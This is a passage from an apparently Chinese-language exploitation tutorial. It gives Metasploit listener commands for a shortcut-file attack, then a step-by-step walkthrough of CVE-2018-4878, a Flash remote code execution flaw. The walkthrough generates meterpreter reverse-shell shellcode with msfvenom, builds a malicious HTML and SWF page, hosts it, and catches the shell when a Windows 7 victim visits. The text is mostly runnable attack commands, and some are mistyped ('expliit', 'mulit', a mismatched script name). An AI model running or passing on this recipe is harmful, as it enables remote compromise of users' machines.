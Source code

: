 6. msf 启动监听

```
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost x.x.x.x
> set lport xxxx
> options
> exploit
```

7. windows 上运行快捷方式

8. msf 接收 shell

## CVE-2018-4878

Flash

攻击者通过构造特殊的 Flash 链接，当用户访问（浏览器、邮件）时，会被远程代码执行

**利用环境准备**

- Kali Linux
- Windows 7 sp1
- exp.py
- flash


**攻击流程**

1. Kali 生成 反弹 shell
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.222.129 lport=4445 \
-f python > shellcode.py.txt
```
2. 查看生成文件
```
$ cat shellcode.py.txt
```
3. 替换文件内容 cve-2018-4878.py 的 buf 内容和输出文件

4. 运行 py 生成 html
```
$ python cve-2018-4748.py
```
5. html 放入 web 目录
```
$ cp index2.html exploit.swf /var/www/html
```

6. Kali 上开启监听

```
msf6> use exploit/mulit/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 192.168.222.129
msf6> set lport 4445
msf6> expliit
```

7. win7 访问我们的页面

IE: http://192.168.222.129/index2.html

8. kali 上接收 console
